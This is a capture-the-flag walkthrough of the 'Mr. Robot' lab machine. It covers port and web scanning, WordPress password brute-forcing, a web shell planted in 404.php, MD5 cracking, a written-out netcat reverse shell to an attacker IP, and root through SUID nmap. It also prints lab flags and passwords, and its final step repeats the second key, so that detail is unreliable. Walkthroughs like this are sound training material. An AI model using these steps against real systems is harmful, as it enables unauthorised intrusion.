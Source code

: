 # Mr. Robot

## Recon

`nmap -p 10.10.156.16` reveals:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-30 04:22 UTC
Nmap scan report for ip-10-10-156-16.eu-west-1.compute.internal (10.10.156.16)
Host is up (0.00040s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 02:07:5E:78:45:78 (Unknown)
```

Both website addresses loaded a sort of qausi-terminal in the browser, something that looks like it was maybe copied from a promotional site for the show.

Nikto on the http site revealed:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.156.16
+ Target Hostname:    10.10.156.16
+ Target Port:        80
+ Start Time:         2020-04-30 04:30:32 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /readme: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://10.10.156.16/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7889 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2020-04-30 04:35:33 (GMT0) (301 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

`robots.txt` contained:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Giving me an easy first key of `073403c8a58a1f80d943455fb30724b9`

`fsocity.dic` (note the mispelled society) seemed to be a show-focused wordlist. Hmm...

## brute forcing a login

The wordpress login at `/wp-login.php` allowed trivial user enumeration: it would tell you whether the username existed. The first username I tried was successful: `elliot`, after the main character of Mr. Robot. Next step, to me, was brute forcing.

I tried hydra on the wp-login with the `fsocity.dic` file, as that seemed an obvious set of passwords. However after half an hour it still had nothing. I probably could leave it running, but it felt too slow. 

One optimisation was fixing up the source file. I didn't pick this up at first glance, but the fsocity.dic file had a lot of duplicates. Of its 800k entries, only about 11k were unique. Doing a `cat fsocity.dic | sort -u > fsocity.dic.sorted` fixed that up. Hydra was still slow though.

The command I was using, for the record, was: 

`hydra -l Elliot -P fsocity.dic.sorted 10.10.156.16 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.16%2Fw
p-admin%2F&testcookie=1:S=302"`

I had run a `wpscan` against the wordpress site, but it hadn't returned anything of interest. However, wpscan also includes the ability to do bruteforcing, and even better directly against the xmlrpc rest service that wordpress uses. I ran the following command:

`wpscan --url http://10.10.156.16 -U elliot -P ./fsocity.dic.sorted`

And had a password, `ER28-0652`, in just under two minutes! Note to self, when attacking wp sites, use wpscan for bruteforcing! I had disdained it initially as I'd assumed hydra would be faster.

## getting a web shell and aiming for a real shell

With the password I could log into the wordpress admin site. First objective was to get some sort of web shell, or basically to get the ability to execute commands as the web site user. I'm sure there are plenty of ways of doing this, but for me after poking about the interface, I found the ability to edit plugin / template pages. I used this to inject a shell into 404.php.

After that I could browse to a nonsense url, like `/hello`, and get the 404 page with my prompt in it. With the shell I was able to see I was running as `daemon`, but with seemingly no rights to the local web folder other than to read it.

The home directory contained a folder for user `robot`, in which was two files: the second key and a password md5 file:

```
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

The key wasn't readable unless I was `robot`, and I wasn't going to get that through this primitive shell. The machine also didn't have ssh available, so even if I got the password I wouldn't be able to login that way. I needed a reverse shell.

### getting robot's password for later

In any event, I could read the `password.raw-md5` file above: `robot:c3fcd3d76192e4007dfb496cca67e13b`. I switched to my windows machine (with its Nvidia 2080), ran `.\hashcat64.exe c3fcd3d76192e4007dfb496cca67e13b ..\rockyou.txt`, and swiftly had the password `abcdefghijklmnopqrstuvwxyz`

## reverse shell and victory

I started a netcat listener on my attacker machine, then tried a few different reverse shell strings. To my double surprise, first the standard python reverse shell I use didn't work, and secondly the following netcat.openbsd (the version without `-e`) reverse string DID work: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.102.174 4444 >/tmp/f`

So I had a shell as daemon. After using `python -c 'import pty; pty.spawn("/bin/bash")'` to get a better shell, I used `su robot` and the password I cracked to get a better user. `cat /home/robot/key2-of-3.txt` revealed `822c73956184f694993bede3eb39f959`.

`sudo -l` didn't work, so I checked for suid via `find / -perm -u=s 2>/dev/null`. It revealed `/usr/local/bin/nmap` as something that stood out. A quick look at gtfobins gave me a command to run, but it didn't work; wrong version of nmap.

However, in failing, nmap told me it supported `--interactive`, so I tried that. It gave me a sort of 'nmap shell'. And like many such interfaces, it included a way to run shell commands :) Specifically, `! whoami` returned root. 

Victory with the final command `! cat /home/robot/key-2-of-3.txt`, which returned `822c73956184f694993bede3eb39f959`.